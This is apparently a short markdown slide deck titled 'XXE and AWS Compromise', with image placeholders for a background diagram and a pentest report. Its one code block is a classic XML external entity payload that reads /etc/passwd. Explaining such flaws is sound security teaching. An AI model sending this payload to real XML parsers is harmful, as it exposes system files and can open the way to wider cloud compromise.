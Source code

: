 # XXE and AWS Compromise

---

## @fa[book] Background
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code] XML Entities
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

---

## @fa[file-signature] Pentest Report
![diagram](xxe-aws-compromise/assets/vuln1.png)

